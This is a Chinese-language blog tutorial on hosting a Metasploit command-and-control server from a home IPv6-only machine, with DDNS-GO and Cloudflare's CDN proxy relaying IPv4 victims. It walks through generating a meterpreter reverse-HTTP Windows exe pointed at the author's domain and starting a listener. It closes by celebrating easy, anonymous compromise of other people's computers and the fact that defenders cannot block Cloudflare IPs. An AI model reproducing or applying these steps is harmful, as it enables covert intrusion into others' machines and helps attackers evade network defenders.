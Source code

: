 

# 无公网 IPv4 云主机上线对方电脑

从理论角度来看，利用家用设备的 IPv6 地址来建立 C2 服务器也是可行的。但是企业内网当中基本上是不可能有公网 IPv6 地址的，没有 IPv6 的话就无法访问到我们的 C2 服务器，这也是本文核心要展开说的地方，话不多说，直接看下文吧。

# [](#%E5%89%8D%E8%A8%80%E4%BB%8B%E7%BB%8D "前言介绍")前言介绍

我国也正在积极推广普及 IPv6 技术，个人家庭光猫基本上都是支持 IPv6 的，IPv6 我们可以理解为一个公网 IP，由于 IPv6 资源数量非常庞大，足够保障我们的家庭每个设备都有自己的公网 IPv6 地址，这一切预示着万物互联的时代即将到来，从理论角度来看，利用家用设备的 IPv6 地址来建立 C2 服务器也是可行的。

但是企业内网当中基本上是不可能有公网 IPv6 地址的，没有 IPv6 的话就无法访问到我们的 C2 服务器，这也是本文核心要展开说的地方，话不多说，直接看下文吧。

# [](#%E6%96%B9%E6%A1%88%E8%8D%89%E5%9B%BE "方案草图")方案草图

整体方案实现其实不难，最主要的就是下面两个知识点：

1.  IPv6 DDNS 解析到指定域名
2.  借助 Coudflare 内部的 CDN 代理将 IPv6 流量转到 IPv4

[![](assets/1699406651-f584af3d1a41d4cc3df4f8fae98a5ffc.png)](https://image.3001.net/images/20231106/1699247563_654875cbaf07acb7bbf61.png)

# [](#%E5%87%86%E5%A4%87%E5%B7%A5%E4%BD%9C "准备工作")准备工作

总的来说就是下面两个步骤即可：

1.  安装好带 IPv6 地址的 Ubuntu 一台
2.  接入好 Cloudflare 的域名一个

## [](#%E6%A3%80%E6%9F%A5-IPv6-%E7%BD%91%E7%BB%9C "检查 IPv6 网络")检查 IPv6 网络

准备一个没有公网 IPv4 地址，但是存在公网 IPv6 地址的 Ubuntu 系统一个，正常家用的主机基本上是满足上述要求的：

[![](assets/1699406651-66a3d21c144f997e94d7059d023857ed.png)](https://image.3001.net/images/20231106/1699253060_65488b441b347b9b0d327.png)

## [](#%E5%AE%89%E8%A3%85-Metasploit "安装 Metasploit")安装 Metasploit

MSF 是经典的 C2 工具，其他的 C2 工具基本上线原理仿造一下即可，我们先来手动来安装一下 Metasploit：

```tools
bash
```

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

[![](assets/1699406651-a69a9960c2656c283aa7260e906d4c62.png)](https://image.3001.net/images/20231106/1699253514_65488d0a361e70937ac73.png)

## [](#%E5%88%9B%E5%BB%BA-CF-%E7%9A%84-API-%E4%BB%A4%E7%89%8C "创建 CF 的 API 令牌")创建 CF 的 API 令牌

为了保持权限最小化原则，我们这里只[创建](https://dash.cloudflare.com/profile/api-tokens)一个修改 itermux 域名的 DNS 权限 API 令牌：

[![](assets/1699406651-386c33092b3a2884a4b42ee5824e0657.png)](https://image.3001.net/images/20231106/1699254505_654890e9e881f7c3d4299.png)

## [](#%E5%AE%89%E8%A3%85%E9%83%A8%E7%BD%B2-DDNS-GO "安装部署 DDNS-GO")安装部署 DDNS-GO

DDNS-GO 的官方项目地址为：[https://github.com/jeessy2/ddns-go](https://github.com/jeessy2/ddns-go)

DDNS-GO 的作用是将公网地址解析到各大云厂商的域名上。下载好 DDNS-GO 参考官方文档安装一下即可：

```tools
bash
```

```bash
sudo ./ddns-go -s install
```

接着访问服务器的 9876 端口即可打开 DDNS-GO 的配置页面，首先填写我们的 CF 的 API Token：

[![](assets/1699406651-4d40307e7b5e16d03d196c3f87e4ec71.png)](https://image.3001.net/images/20231106/1699254319_6548902f4a30b72f5f479.png)

最后配置一下要 IPv6 对应解析的域名即可：

[![](assets/1699406651-9552d698985c2b28a092ae71d7cb78e6.png)](https://image.3001.net/images/20231106/1699254387_65489073c1a5cbb90826f.png)

通过 DDNS-GO 的日志可以看到 msf.itermux.com 域名成功解析到了我们的公网 IPv6 地址：

[![](assets/1699406651-3815ee72a24bead98fc9c4721819280c.png)](https://image.3001.net/images/20231106/1699254577_654891312f29201ebb142.png)

## [](#%E9%85%8D%E7%BD%AE-Cloudflare "配置 Cloudflare")配置 Cloudflare

因为当前默认域名解析的是 IPv6 地址，IPv4 设备是无法访问到我们的域名的，为此我们需要手动开启 CF 的代理，借助 CF 将域名转换成 IPv4 也可以访问的 IP 地址：

[![](assets/1699406651-95bd745aafec12ba0a512e2d9b40017f.png)](https://image.3001.net/images/20231106/1699255320_654894180b4404bf0957e.png)

然后手动关闭一下 CF 的 SSL 加密：

[![](assets/1699406651-bcbdd390f1811288aa8221f8ca5820dc.png)](https://image.3001.net/images/20231106/1699255540_654894f4c8c059a212f79.png)

## [](#%E9%AA%8C%E8%AF%81%E8%BF%9E%E9%80%9A%E6%80%A7 "验证连通性")验证连通性

首先在服务器上借助 Python3 监听一个 IPv6 的 80 端口：

```tools
bash
```

```bash
python3 -m http.server 80 --bind ::
```

然后直接访问我们的 msf.itermux.com 域名测试成功访问：

[![](assets/1699406651-f68c12470a966c39c6cc3af51600876b.png)](https://image.3001.net/images/20231106/1699255986_654896b2d95e3087989ff.png)

# [](#%E6%93%8D%E4%BD%9C%E7%BB%86%E8%8A%82 "操作细节")操作细节

既然上述操作跑通的话，那么下面直接来尝试一下 MSF 上线吧。后续的操作就比较简单常规了，我们很快的来过一下：

## [](#%E7%94%9F%E6%88%90-Payload "生成 Payload")生成 Payload

我们使用 meterpreter\_reverse\_http 的 Payload，HOST 填写我们的 IPv6 地址 DDNS 的域名 msf.itermux.com，端口就填写 80 端口：

```tools
bash
```

```bash
msf6 > use payload/windows/x64/meterpreter_reverse_http
msf6 > set LHOST msf.itermux.com
msf6 > set LPORT 80
```

[![](assets/1699406651-a3ddd838bca8816b48f8e03d534fec88.png)](https://image.3001.net/images/20231106/1699261365_6548abb5a33e9179c6474.png)

然后直接在 msfconsole 控制台里面使用 generate 生成 Windows exe 木马文件：

```tools
bash
```

```bash
msf6 payload(windows/x64/meterpreter_reverse_http) > generate -f exe -o shell.exe
[*] Writing 208384 bytes to shell.exe...
```

## [](#%E7%9B%91%E5%90%AC%E4%BC%9A%E8%AF%9D "监听会话")监听会话

这里监听的细节是 `set LHOST ::` 表示监听本地的 IPv6 地址：

```tools
bash
```

```bash
msf6 > use exploits/multi/handler
msf6 > set payload windows/x64/meterpreter_reverse_http
msf6 > set LHOST ::
msf6 > set LPORT 80
```

[![](assets/1699406651-ef4e911a3fc54f46ff5607b8fa1f527d.png)](https://image.3001.net/images/20231106/1699261603_6548aca34eea62b2090a0.png)

## [](#%E4%B8%8A%E7%BA%BF%E6%95%88%E6%9E%9C "上线效果")上线效果

运行 shell.exe 后既上线成功，通过 netstat 命令查看，可以看到多个上线的会话连接，这些外连 IP 均为 Cloudflare 的 CDN IP，蓝方防守的话封是封不完，而且不敢封的，因为国内很多大型网站可能也用的是 Cloudflare。

[![](assets/1699406651-bed5a9e2f080474552ea72c6829153a2.png)](https://image.3001.net/images/20231106/1699261909_6548add582b3043cb32b2.png)

MSF 的上线记录效果如下，可以看到 CF 的 CDN IPv6 服务器和本地的 IPv6 交互的记录：

[![](assets/1699406651-f9797b1b55d384a52726c700f9be39ae.png)](https://image.3001.net/images/20231106/1699261958_6548ae068fd6fae8aef90.png)

# [](#%E6%96%B9%E6%A1%88%E6%80%BB%E7%BB%93 "方案总结")方案总结

1.  以后上线别人的话，不用买云服务器了，连接 SIM 热点或者直接使用家用光猫有 IPv6 地址就行
2.  IPv6 还在普及中，监管方面也比较弱，且 IPv6 也是动态的，很灵活
3.  Cloudflare 的 CDN 外连 IP 蓝方不敢轻易封禁，因为国内很多大厂也用的 Cloudflare 的 CDN
4.  Cloudflare 的 CDN 是多种多样的，封一个两个也封不完的
5.  Cloudflare 的域名接入也不需要实名操作，理论上是可以做到完全匿名的渗透上线的

